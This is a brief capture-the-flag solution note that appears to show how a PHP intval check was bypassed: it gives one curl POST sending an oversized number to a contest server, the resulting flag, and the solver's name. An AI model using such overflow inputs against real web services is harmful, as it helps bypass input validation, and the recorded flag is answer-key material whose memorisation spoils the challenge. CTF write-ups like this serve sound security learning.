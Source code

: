 # Solution
```
curl -X POST http://52.59.124.14:5004/ -d "numbers[]=1e20&numbers[]=1"
```

Flag: `ENO{INTVAL_IS_NOT_ALW4S_P0S1TiV3!}`


Solved by: yappare